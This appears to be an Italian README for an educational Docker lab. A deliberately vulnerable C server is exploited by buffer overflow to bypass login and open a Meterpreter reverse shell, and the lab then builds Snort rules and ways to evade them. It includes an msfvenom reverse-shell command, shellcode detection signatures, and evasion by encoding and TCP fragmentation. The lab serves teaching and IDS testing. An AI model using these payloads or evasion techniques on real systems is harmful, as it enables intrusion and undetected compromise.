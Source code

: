 # Buffer_Overflow_1

Un attacco di buffer overflow in un contesto di reti, rilevabile tramite un IDS basato su Snort

# Exploit Buffer Overflow & Analisi IDS

## Panoramica

Questo progetto consiste nel realizzare uno scenario di attacco ad un server TCP con una **vulnerabilità di buffer overflow** in un ambiente containerizzato ed isoltato tramite Docker. L'obiettivo è comprendere il funzionamento di questo tipo di attacco, sviluppare un exploit funzionante per ottenere **una shell remota** sulla macchina target dell'attacco e testare un **Intrusion Detection System (IDS)** per identificare l'attacco monitorando il traffico di rete e successivamente bypassare il suo rilevamento.

Il progetto include:

- Un **server TCP vulnerabile** scritto in C implementato e compilato al fine di renderlo vulnerabile a questo tipo di attacco.
- Un serie di **exploit** che consentono di sfruttale la vulnerabilità, bypassare il controllo delle credenzialio ottenere una **reverse shell**.
- Un sistema IDS realizzato con Snort con alcune **regole IDS** per il rilevamento dell'attacco.
- **Tecniche di evasione IDS** per dimostrare i limiti dei sistemi rule-based.
  Lo scenario è stato realizzato in un ambiente containerizzato in cui le entità interagiscono secondo lo schema di rete di seguito riportato:
  ![](img/schema.png)

---

## Configurazione del Progetto

E' possibile avviare lo scenario lanciando lo script predisposto start_env.sh con privilegi di superuser, successivamente sarà necessario accedere al container del server e lanciare il server con uno script di avvio (start_server.sh) e operare l'esecuzione degli exploit collegandosi tramite shell interattiva alla container del client attaccante.

### Descrizione dello scenario

Il server contiene una vulnerabilità di buffer overflow realizzata tramite l'utilizzo della funzione strcpy() della libreria standard del linguaggio C, è compilato disabilitando le protezioni di sicurezza per facilitare l'exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

La sua implementazione è consultabile nel file server/server_vuln.c

Al fine di consentire l'attacco sarà inoltre necessario disabilitare i meccanismi di sicurezza del kernel atti a prevenire questo tipo di attacco, vale a dire l'ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Collegandosi al server lo stesso richiederà di inserire le credenziali di accesso al sistema, inserendo le credenziali corrette il sistema risponde con un messaggio di avvenuta autenticazione e restituisce una ASCII Art.
![](img/access.png)
Il client attaccante può testare il servizio inviando dapprima un input di elevate dimensioni utilizzando python da riga di comando:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in questo modo, se il server non risponde e non fornisce risposta, vorrà dire che è crashato, questo non solo si configura come un attacco di Denial-of-Service, ma risulta essere un chiaro indizio sulla possibilità di un mancato controllo dell'input inviato dall'utente che espone il server ad una vulnerabilita di Buffer Overflow.

Procedendo in maniera incrementale, però è possibile sfruttare la vulnerabilità di buffer overflow e fornendo un input della giusta dimensione di potrà sovrascrivere il parametro di ritorno della funzione di autenticazione con un valore diverso da 0 e superare la verifica delle credenziali pur non conoscendole. Questo attacco è stato implementato ed è consultabile nel file **exploit_auth_result.py**.

Al fine di portare a termine un attacco più strutturato è necessario calcolare l'offset dell'input dopo il quale viene sovrascritto l' **Extended Instruction Pointer**, cella di memoria che contiene l'indirizzo della funzione chiamante per restituirgli il controllo.
Per far ciò è stato utilizzato il debugger gdb e gli strumenti del **Metasploit Framework (msf-pattern_create e msf-pattern_offset)** per ottenere questa informazione.
Successivamente è stato predisposto un payload contenenete codice da iniettare per l'apertura di una reverse TCP shell sulla macchina target verso la macchina attaccante attraverso il tool msfvenom del Framework Metasploit tramite il comando:

```bash
msfvenom −p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true −f python
```

lo stesso è stato concatenato a del padding per riempire lo stack fino all'EIP, un indirizzo di memoria per sovrascrivere l'EIP con l'idirizzo di uan cella contenente il nostro codice iniettato, una serie di NOP slide instruction e l'effettivo payload generato. Lanciando l'exploit e facendo si che il client attacante si metta in ascolto sulla porta per specificata otterremo una shell remota della macchina target ormai compromessa.
![](img/shell.png)

## Configurazione IDS e Rilevamento dell'Attacco

Il sistema di rilevamento dell'attacco è stato realizzato con **Snort**, configurato per monitorare il traffico tra client e server con delle regole custom per il rilevamento di possibili attacchi sulla nostra rete interna. Sono state definite regole per rilevare l'attacco di buffer overflow analizzando pattern ricorrenti nel payload inviato dall'attaccante.

### Regole IDS per il Rilevamento

Di seguito sono riportate due regole implementate in Snort per identificare il tentativo di exploit ed eventuali successive contromisure da parte dell'attaccante, definendo un escalation di tecniche di attacco e contromisure che sono state implementate ed analizzate nel presente elaborato.

#### Rilevamento di Sequenze Ripetute (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow";
    pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Contromisura

La regola tuttavia può generare falsi positivi ed è facilmente bypassabile con sequenze casuali di caratteri per il padding.

#### Rilevamento di Firme associate all'esecuzione di /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Contromisura

Utilizzando l'encoding Shitaka Ga Nai offerto da msfvenom possiamo facilmente bypassare il controllo

#### Rilevamento di Firme associate all'decoder Shitaka Ga Nai (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classtype:attempted-admin; sid:1000004; rev:1;)
```

##### Contromisura

Utilizzando la frammentazione TCP possiamo impedire all'ids, che di default verifica la presenza di firme associate alle regole nel singolo pacchetto, per frammentare il payload e bypassare il controllo

#### Configurazione di Snort per consentire all'IDS di ricostruire i flussi TCP

Configurazione del file snort.conf per abilitare il preprocessor stream5_tcp per analizzare il contenuto inviato nel flusso TCP ricostruendo i frammenti inviati.
